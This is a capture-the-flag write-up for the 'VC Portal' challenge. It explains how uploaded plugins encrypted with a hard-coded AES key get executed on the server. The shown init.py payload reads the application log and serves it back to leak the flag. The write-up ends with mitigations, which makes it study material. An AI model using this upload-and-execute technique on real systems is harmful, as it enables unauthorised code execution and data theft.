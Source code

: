 # Money

![Proof](proof.png)

**Author:** `stancium`   
**Solve:** 61

---

## Description

The VC Portal accepts plugin uploads as `.plugin` files. A `.plugin` is an AES-CBC encrypted ZIP (`iv || ciphertext`). On upload the server decrypts the file, extracts it, and **executes `init.py`** from the extracted directory. The application logs `init.py` stdout to `/opt/app/app.log`.

The supplied `flag.plugin` does **not** contain the flag directly; instead its `init.py` prints the flag from the environment variable `FLAG` and the server records that output in `app.log`.

Goal: recover the flag.

---

## Vulnerabilities

* **Arbitrary Code Execution:** Uploaded `init.py` is executed with `subprocess.run([...], cwd=plugin_dir)` with no sandboxing.
* **Hard-coded symmetric key:** `KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"` allows anyone to craft valid `.plugin` packages.
* **Log exposure vector:** Flag is printed to stdout by the official plugin and captured in `/opt/app/app.log`.
* **Store gating by plugin count:** Downloading from `/store` is gated by `len(registry) > 2`, which can be trivially reached by uploading benign plugins.

---

## Exploit Overview

1. Build a valid `.plugin` archive (zip), place an `init.py` that reads `/opt/app/app.log` and writes it into the plugin's own `index.html`.
2. Encrypt the zip using the known AES-CBC key (prepend a random IV), producing a `.plugin` file.
3. Upload the `.plugin` to the portal. The server will decrypt, extract, and execute `init.py`.
4. Visit `/widget/<your-uid>` — the server will serve the `index.html` you created, which contains the contents of the server log, including the flag line.
5. Parse the flag from the served page (it appears as `You cannot see this MUHAHAHAHA: <FLAG>` in the log).

---

## Tools & Helpers

* `rce_log_grab.py` — builds & uploads the plugin, fetches the widget page, and searches for flags.
  Path: `sandbox:/mnt/data/rce_log_grab.py`

* `decrypt_store_plugin.py` — helper to decrypt an encrypted `.plugin` (iv||ct) and extract it locally.
  Path: `sandbox:/mnt/data/decrypt_store_plugin.py`

* `proof.png` — a small proof image used in this writeup.
  Path: `sandbox:/mnt/data/proof.png`

> **Requirements:** `pip install requests pycryptodome`

---

## rce\_log\_grab.py (core exploit)

```py
# rce_log_grab.py - high level
# - crafts a zip containing plugin_manifest.json, thumbnail.svg, index.html, init.py
# - encrypts the zip with AES-CBC using the known key (iv||ciphertext)
# - uploads to /upload
# - finds the plugin UID on the dashboard
# - fetches /widget/<uid> and searches for flag patterns
```

Key snippet for `init.py` used inside the plugin:

```py
# init.py (what we execute on the server)
import html
from pathlib import Path
p = Path(__file__).resolve().parent
data = Path('/opt/app/app.log').read_text(errors='ignore')
(p / 'index.html').write_text('<!doctype html><meta charset="utf-8"><title>log</title><pre>' + html.escape(data) + '</pre>')
print('ok')
```

---

## Example run

1. Run the exploit script:

```bash
python3 rce_log_grab.py
```

2. The script saves the widget page to `widget_log.html`. Search for the flag:

```bash
grep -Eo 'CTF\{[^}]+\}|UPT\{[^}]+\}' widget_log.html || grep -n 'MUHAHAHAHA:' widget_log.html
```

Typical log line to look for:

```
plugin_stdout uid=<...> out=You cannot see this MUHAHAHAHA: CTF{...}
```

Submit the token inside `CTF{...}`.

---

## Why symlinks initially failed

We attempted to create a symlink entry in the ZIP where `index.html` pointed at `/opt/app/app.log`, hoping Flask would follow it. On this server, `zipfile.extractall` produced a regular file containing the symlink text instead of a real symlink pointing to the log, so the symlink approach returned the literal path string rather than the log contents. The RCE `init.py` approach is reliable because the server *always* executes `init.py`.

---

## Mitigations

* **Do not execute** arbitrary uploaded code. If execution is required, run it in a hardened sandbox: unprivileged user, no network, syscall filtering (seccomp), CPU/memory/time caps, and read-only filesystem mounts except a controlled working directory.
* **Use signatures, not symmetric encryption** in the upload flow. Sign plugin zips with Ed25519; verify on server before extracting. Never embed static keys in source code.
* **Sanitize ZIP entries:** refuse absolute paths, `..` components, and symlink entries. Ensure extracted files remain within the intended plugin directory.
* **Avoid logging secrets** to common logs or, at minimum, rotate and restrict log access.

---

## Appendix — Files

* `rce_log_grab.py` — exploit script.
* `decrypt_store_plugin.py` — decrypt helper.
* `proof.png` — small proof image used above.

---

## Notes / Credit

* Challenge: **VC Portal** — CTF\@AC
* Author of this writeup: `stancium`
* Techniques: AES format reversing, untrusted upload RCE, log exfiltration.
